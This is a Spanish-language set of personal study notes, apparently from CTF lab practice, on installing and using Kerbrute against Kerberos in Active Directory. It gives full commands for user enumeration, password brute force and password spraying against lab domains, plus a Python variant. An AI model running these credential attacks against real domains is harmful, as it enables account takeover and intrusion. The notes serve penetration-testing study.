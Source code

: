 **Kerbrute** es una herramienta de fuerza bruta y enumera el Protocolo de Autenticación Kerberos, comúnmente utilizada en entornos de Active Directory. Kerberos es un protocolo de red de autenticación utilizado en entornos Windows para autenticar usuarios y servicios. Kerbrute es útil para descubrir cuentas válidas y probar contraseñas comunes.

```
https://github.com/ropnop/kerbrute
```

# Requerimentos
Para poder utilizar kerbrute previamente deberemos tener instalado golang en nuestro sistema
```
sudo apt install golang
```
![[Pasted image 20240716082415.png]]

Verificamos que esta instalado
![[Pasted image 20240716082439.png]]
# Instalar Kerbrute
Primero clonamos el repositorio
```
git clone https://github.com/ropnop/kerbrute.git
```
![[Pasted image 20240716081246.png]]

Accedemos a la carpeta del repositorio y compilamos kerbrute
```
go build -o kerbrute main.go
```
![[Pasted image 20240716082917.png]]

Y ya tendriamos compilado kerbrute
![[Pasted image 20240716083016.png]]

Ahora lo añadiremos al path para que podamos ejecutarlo en cualquier directorio del sistema
![[Pasted image 20240717081814.png]]

# Enumeración usuarios
```
kerbrute userenum --dc 10.10.116.29 -d lab.enterprise.thm /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -o users.txt
```
![[Pasted image 20240716085225.png]]

# Ataque de fuerza bruta
```
kerbrute bruteuser --dc 10.10.143.170 -d THM-AD passwordlist.txt Administrator
```

# Ataque de rociado de contraseñas
```
kerbrute passwordspray -d raz0rblack.thm --dc 10.10.199.105 users.txt roastpotatoes
```
![[Pasted image 20240730085023.png]]


--------
Tambien tenemos esta otra version de kerbrute de impacket escrita en python que podemos aprovechar para hacer ataques de fuerza bruta con una lista de usuarios y contraseñas
```
https://github.com/TarlogicSecurity/kerbrute
```

Descargamos el repositorio
![[Pasted image 20240717082447.png]]

Accedemos al directorio e instalamos las dependencias
![[Pasted image 20240717082601.png]]

Una vez instalado ya podremos utilizar esta version de kerbrute en python
![[Pasted image 20240717100157.png]]

Para hacer el ataque de fuerza bruta podemos ejecutar el siguiente comando
```
python3 kerbrute.py -users userlist.txt -passwords passwordlist.txt -domain spookysec.local -t 100
```
![[Pasted image 20240717102130.png]]

